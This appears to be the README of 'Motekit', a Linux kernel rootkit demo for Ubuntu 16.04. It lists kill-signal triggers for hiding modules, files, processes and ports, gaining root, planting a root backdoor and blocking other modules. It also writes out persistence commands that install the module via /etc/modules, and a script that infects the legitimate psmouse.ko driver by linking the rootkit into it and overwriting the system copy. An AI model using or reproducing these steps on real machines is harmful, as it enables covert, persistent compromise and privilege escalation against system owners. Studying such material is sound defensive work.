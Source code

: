 # Motekit

> Description：Simple Rootkit Demo
>
> Base：ubuntu16.04
>
> Kernel：4.15.0-66



## Target

- [x] Hide/Unhide Module

  - [x] lsmod
  - [x] /proc/modules
  - [x] /sys/module

- [ ] Get sys_call_table 

  - [x] Brute force
  - [ ] via MSR_LSTAR register
  - [ ] via /boot/System.map-$(uname -r)
  - [ ] etc....

- [x] Hide/Unhide File ( with  fixed prefix , have to improve )

- [x] Hide/Unhide Process ( with fixed pid , have to improve )

- [x] Hide/Unhide Port ( with fixed port , have to improve  )

- [x] GetRoot

  - [x] directly

- [x] SetBackdoor/CleanBackdoor

- [x] Persistence

  - [x] hijack psmouse module
  - [x] write into /etc/modules

- [x] Block Other Module

  

## Document

1. **Hide Module**

```
kill -50 [whataver pid]
```

![image-20191101144315568](Motekit.assets/image-20191101144315568.png)



2. **Unhide Module**

```
kill -51 [whataver pid]
```

![image-20191101144350117](Motekit.assets/image-20191101144350117.png)



3. **Hide File**

```
kill -52 [whataver pid]
```

![image-20191101144544479](Motekit.assets/image-20191101144544479.png)



4. **Unhide File**

```
kill -53 [whataver pid]
```

![image-20191101144628064](Motekit.assets/image-20191101144628064.png)



5. **Hide Process**

```
kill -54 [whataver pid]
```

![image-20191101144950681](Motekit.assets/image-20191101144950681.png)



6. **Unhide Process**

```
kill -55 [whataver pid]
```

![image-20191101145055462](Motekit.assets/image-20191101145055462.png)



7. **Hide Port**

```
kill -56 [whataver pid]
```

![image-20191101145236690](Motekit.assets/image-20191101145236690.png)



8. **Unhide Port**

```
kill -57 [whataver pid]
```

![image-20191101145329694](Motekit.assets/image-20191101145329694.png)



9. **Get Root Priviledge Directly**

```
kill -58 [whataver pid]
```

![image-20191101145451185](Motekit.assets/image-20191101145451185.png)



10. **Set Root BackDoor (Follow QuanZhi Backdoor Event)**

```
kill -59 [whataver pid]
```

![image-20191101145725084](Motekit.assets/image-20191101145725084.png)



11. **Clean The BackDoor**

```
kill -60 [whataver pid]
```

![image-20191101150014570](Motekit.assets/image-20191101150014570.png)



12. **Persistence**

```
kill -61 [whataver pid]
```

This is the easist way to persistence.

```
sudo cp myrootkit.ko /lib/modules/$(uanme -r)/kernel/drivers/
echo 'myrootkit' | sudo tee -a /etc/modules
sudo depmod
```

![image-20191101150058924](Motekit.assets/image-20191101150058924.png)

![image-20191101150440222](Motekit.assets/image-20191101150440222.png)

Second , I hijack the module psmouse.ko , however it doesn't work after i reboot my machine.

```
#!/bin/bash
cp /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko .
objcopy psmouse.ko gpsmouse.ko --globalize-symbol psmouse_init --globalize-symbol psmouse_exit
make --quiet
ld -r gpsmouse.ko myrootkit.ko -o infected.ko 
setsym infected.ko init_module $(setsym infected.ko hide_file_init)
setsym infected.ko cleanup_module $(setsym infected.ko hide_file_exit)
rmmod psmouse
insmod infected.ko
ls -al ./
rmmod psmouse
ls -al ./
cp infected.ko /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko
insmod /lib/modules/$(uname -r)/kernel/drivers/input/mouse/psmouse.ko
```



13. Reverse shell ( TODO , not finished yet )

```
kill -62
```



14. Block Module

```
kill -63 [whataver pid]
```



15. Clear Block Module

```
kill -64 [whataver pid]
```




